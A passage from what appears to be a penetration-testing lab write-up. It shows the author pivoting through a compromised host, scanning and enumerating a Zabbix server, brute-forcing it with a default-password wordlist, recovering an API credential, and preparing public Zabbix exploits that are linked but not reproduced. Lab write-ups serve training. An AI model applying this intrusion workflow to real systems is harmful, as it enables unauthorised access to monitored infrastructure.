Same here but seems like no success so we can move on?



New scan from inside linux wordpress machine! But seems dead?!?

```
www-data@corewebdl:/tmp$ ./nmap -F -Pn 10.9.10.16
./nmap -F -Pn 10.9.10.16

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:43 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.

Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 16.33% done; ETC: 08:44 (0:00:46 remaining)

Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 85.71% done; ETC: 08:43 (0:00:07 remaining)
Nmap scan report for 10.9.10.16
Host is up.
All 245 scanned ports on 10.9.10.16 are filtered

Nmap done: 1 IP address (1 host up) scanned in 51.09 seconds
www-data@corewebdl:/tmp$
```

&nbsp;

It might be that we will reach this at the end but for now I have to move ON!

&nbsp;

# Back on track

Seems like this machine exist as ubuntu:

```
PS C:\Users\Administrator> curl http://10.9.10.16


StatusCode        : 200
StatusDescription : OK
Content           :
                    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
                    <html xmlns="http://www.w3.org/1999/xhtml">
                      <!--
                        Modified from the Debi...
RawContent        : HTTP/1.1 200 OK
                    Vary: Accept-Encoding
                    Keep-Alive: timeout=5, max=100
                    Connection: Keep-Alive
                    Accept-Ranges: bytes
                    Content-Length: 10918
                    Content-Type: text/html
                    Date: Wed, 19 Jun 2024 21:26:02 GM...
Forms             : {}
Headers           : {[Vary, Accept-Encoding], [Keep-Alive, timeout=5, max=100], [Connection, Keep-Alive], [Accept-Ranges, bytes]...}
Images            : {@{innerHTML=; innerText=; outerHTML=; outerText=; tagName=IMG; class=floating_element; alt=Ubuntu Logo;
                    src=/icons/ubuntu-logo.png}}
InputFields       : {}
Links             : {@{innerHTML=manual; innerText=manual; outerHTML=<A href="/manual">manual</A>; outerText=manual; tagName=A; href=/manual}, @{innerHTML=public_html; innerText=public_html;
                    outerHTML=<A href="http://httpd.apache.org/docs/2.4/mod/mod_userdir.html" rel=nofollow>public_html</A>; outerText=public_html; tagName=A;
                    href=http://httpd.apache.org/docs/2.4/mod/mod_userdir.html; rel=nofollow}, @{innerHTML=existing bug reports; innerText=existing bug reports; outerHTML=<A
                    href="https://bugs.launchpad.net/ubuntu/+source/apache2" rel=nofollow>existing bug reports</A>; outerText=existing bug reports; tagName=A;
                    href=https://bugs.launchpad.net/ubuntu/+source/apache2; rel=nofollow}}
ParsedHtml        : System.__ComObject
RawContentLength  : 10918


PS C:\Users\Administrator>
```

But can be reached by .10.x network only?

&nbsp;

# The next day

After I managed to setup the connection back to my Ligolo-NG via CYDC now we can reach this machine!



And we can run Rustcan to check the results!



Now the scan is taking long, but that port 10050 reminds me of whan I was wokring @IVER we had Zabbix and I guess this is indeed used by this flag?


And now we can have a better view?

```
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:25:d3:98:90:ee:4b:8a:cd:9b:ae:c6:18:f4:35:bb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDWiuQ34U3A9dZDyjSuokq8S0s2+FVRpoI0PwaC6NcRgnVBXK7/zJzPPHFAsPH47yS81PpArkCDQm8WjFvp212uybcT6s60cCLKY4gGT5MidsUq1kVan4gohllWPWcfovG4zEr832zT/CP4n0KXne2L/nEPkNRWxggnWDsWXKpbwfMV4+/oA4/XoR0/ZD4kcVysgmT7z5DdQ0fsLzomt1INSYIBxX/Ce3dHexi8Psl+E5K3Spm8MdOtA/uhZXSZhEdcVK4xt1S2YXPIh0L8c9kS3ir1jjvEGSGcWA9Qd5e6QKFzL7b05AvIYKAgg48431zkR4AOxb6LxBU9bJ7W/Xy7
|   256 e1:bd:76:3a:d8:ad:b1:05:c8:57:96:44:1e:fc:96:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJCg4dt3qn8leM1FGrqSSm/7eA2Bf+PuQHBe+GC59QFIOVqyVtRiDibysbRBpGYG0ox56ebnd46iOddZPCaX2VE=
|   256 38:01:6d:4e:80:40:53:fd:1a:49:a6:30:e6:6c:d3:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID7HYF050BbLT0jgpxAmByQYHjPJKZm4Oa4TihvFIUif
80/tcp    open  http       syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
111/tcp   open  rpcbind    syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
10050/tcp open  tcpwrapped syn-ack ttl 64
10051/tcp open  tcpwrapped syn-ack ttl 64
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=22%CT=%CU=%PV=Y%G=N%TM=667930F6%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=109%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 21.678 days (since Sun Jun  2 18:23:25 2024)
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

&nbsp;

# PORTMAPPER

On the port 111/TCP there is running portmapper and ufortunately not much can be extracted so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2023-6553]
└─# nmap -sSUC -p111 10.9.10.16
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 10:42 CEST
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.02% done; ETC: 10:42 (0:00:00 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.02% done; ETC: 10:42 (0:00:01 remaining)
Nmap scan report for 10.9.10.16
Host is up (0.014s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
111/udp open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 15.28 seconds
```

&nbsp;

# HTTP

The default HTTP service is pointing to the blank site:



And I don't see any hidden comment on the HTML backend page, but will use dirsearch and check if I can find disguised folder/files on the vhost.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CVE-2023-6553]
└─# dirsearch -u "http://10.9.10.16"
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/Downloads/Cybernetics/CVE-2023-6553/reports/http_10.9.10.16/_24-06-24_10-45-25.txt

Target: http://10.9.10.16/

[10:45:25] Starting: 
[10:45:29] 403 -  275B  - /.ht_wsr.txt
[10:45:29] 403 -  275B  - /.htaccess.save
[10:45:29] 403 -  275B  - /.htaccess.bak1
[10:45:29] 403 -  275B  - /.htaccess.sample
[10:45:29] 403 -  275B  - /.htaccess_orig
[10:45:29] 403 -  275B  - /.htaccess_sc
[10:45:29] 403 -  275B  - /.htaccess_extra
[10:45:29] 403 -  275B  - /.htaccess.orig
[10:45:30] 403 -  275B  - /.html
[10:45:30] 403 -  275B  - /.htaccessBAK
[10:45:30] 403 -  275B  - /.htaccessOLD2
[10:45:30] 403 -  275B  - /.htaccessOLD
[10:45:30] 403 -  275B  - /.htm
[10:45:30] 403 -  275B  - /.htpasswd_test
[10:45:30] 403 -  275B  - /.httr-oauth
[10:45:30] 403 -  275B  - /.htpasswds
[10:45:31] 403 -  275B  - /.php
[10:46:09] 403 -  275B  - /server-status
[10:46:09] 403 -  275B  - /server-status/
[10:46:20] 200 -    1KB - /zabbix/
```

Seems like I was right, there is Zabbix!



&nbsp;

# Foothold via Zabbix

Now We can try to login as guest but the page will be totally clean so I guess we must either bruteforce the page with some default credentials or try to use the credendtials we found out so far and hope for the best!

And trying with all the password I found so far in cleartextget no success:



But this is failing and looking around seems like up to Zabbix 4.0.4 we can bypass the login and create new dashboards?

```
https://github.com/K3ysTr0K3R/CVE-2019-17382-EXPLOIT
```

But we need some credentials so since none of the standard are used I googled around and seems like there is abinary that can be used to talk to the port 10050(used for passive checks)

https://www.assured.se/posts/zabbix-agent-security



I am hoping to be able to get more out of it, specifically there is the go implementation: https://github.com/fujiwara/go-zabbix-get

But then looking around I found this one: https://github.com/zabbix-tools/zabbix_agent_bench/tree/master

This last one seems much more strong on functions.

&nbsp;

# Back on track

Now here i totattly forgot about this part, I remeber on the intranet page of CORE that they were talking about the Zabbix, but I totally forgot they also mentioned the API user to use...



&nbsp;

So **zabpai** is the way to go!

Now looking around seems like this is the default credentials:



I will create a small wordlist with some permutations to check for access?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/d3v.local]
└─# cat zabbix.password 
admin
Admin
zabbix
Zabbix
root
Root
Administrator
administrator
```

And prepare the bruteforcer in MSFConsole.

but I see that the gui access is disabled:



And I see aswell that there is a typo error on the Intranet



Making it working with (**zabapi: Zabbix**)

I also tried to use another exploit that bypasses the login but it doesn't work:



&nbsp;

# Attacking Zabbix API

Googling I came around this exploit which is what we really need: https://github.com/Diefunction/ZabbixAPIAbuse

So far we have the credentials to the API backend so this is what we need.

But since I am still missing the HOSTID i need to get an interface via the API, and I can use this tool to talk back to the API via a CLI:

https://github.com/unioslo/zabbix-cli

And immediately I can see that our  user is part of API and have no access to the frontend:

```
[zabbix-cli zabapi@zabbix-ID]$ show_usergroups
+---------+---------------------------+-------------+------------+--------+
| GroupID | Name                      |  GUI access |   Status   | Users  |
+---------+---------------------------+-------------+------------+--------+
|      16 | API Users                 | Unknown (3) | Enable (0) | zabapi |
|      12 | No access to the frontend | Unknown (3) | Enable (0) | zabapi |
+---------+---------------------------+-------------+------------+--------+

[zabbix-cli zabapi@zabbix-ID]$ help
```

And seems like i can't create a new usergroup that allows us to get access to the GUI:



We can see the following hosts available on the machine:

```
[zabbix-cli zabapi@zabbix-ID]$ show_hosts
+--------+------------+------------------+-----------+---------------+--------------------+---------------+-------+
| HostID | Name       | Hostgroups       | Templates |  Zabbix agent |    Maintenance     |     Status    | Proxy |
+--------+------------+------------------+-----------+---------------+--------------------+---------------+-------+
|  10107 | COREWKT002 | Discovered hosts |           | Available (1) | No maintenance (0) | Monitored (0) |       |
+--------+------------+------------------+-----------+---------------+--------------------+---------------+-------+
|  10106 | D3WKT001   | Discovered hosts |           | Available (1) | No maintenance (0) | Monitored (0) |       |
+--------+------------+------------------+-----------+---------------+--------------------+---------------+-------+

[zabbix-cli zabapi@zabbix-ID]$
```

Now these hostsid are needed in for our exploit to work. https://www.exploit-db.com/exploits/39937

I ajusted the exploit with right IP, URL and Credentials. Plus I am using the HOSTID of the D3WTK001 since it iis our first machine in this new domain(the other we have already pwned).

